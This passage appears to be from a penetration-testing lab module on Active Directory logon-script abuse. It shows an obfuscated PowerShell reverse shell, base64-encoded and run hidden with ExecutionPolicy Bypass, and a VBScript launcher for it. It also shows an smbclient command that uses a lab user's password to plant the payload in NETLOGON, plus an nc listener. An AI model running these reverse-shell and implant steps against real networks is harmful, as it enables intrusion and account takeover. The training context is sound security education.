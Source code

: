 ```shell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADEAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATg<SNIP>

```

Alternatively, we can use a `.vbs` file along with the [CreateObject](https://ss64.com/vb/createobject.html) [wscript](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wscript) method to execute the encoded payload:

```VBScript
CreateObject("Wscript.shell").Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADIAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAgAD0AIAAkAFQAQwBQAEMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIAAkAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj<SNIP>"

```

Subsequently, we will use `smbclient` to connect to the "EricsScripts" folder on `NETLOGON` and place our payload file in it using the `put` command:

```shell
smbclient //10.129.229.224/NETLOGON --directory EricsScripts -U David%'SecurePassDav!d5' -c "put logonScript.bat"

putting file logonScript.bat as \EricsScripts\logonScript.bat (1070.3 kb/s) (average 1070.3 kb/s)

```

At this point, the payload file is implanted within `NETLOGON`; before learning how to update `eric`'s `scriptPath` attribute from Linux, we need to start an `nc` listener on the same port we specified in the PowerShell reverse shell one-liner:

```shell
nc -nvlp 9001

listening on [any] 9001 ...

```

**Note**: Remember that we can execute any other commands we want as `Eric`. Suppose that `Eric` only has [User-Force-Change-Password](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password) (the [Password Abuse](https://academy.hackthebox.com/module/219/section/2333) section of the [DACL Attacks I](https://academy.hackthebox.com/module/details/219) module covered its abuse) over another user, a high-value one, called `Sam`. Rather than obtaining a reverse shell (which might be of little use) as `Sam`, we can instead abuse `User-Force-Change-Password` to reset the account's password.

### Step 3

To modify `eric`'s `scriptPath` to be the same location as the payload file we placed in Step 2, we will use `ldapmodify` and `bloodyAD`.


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname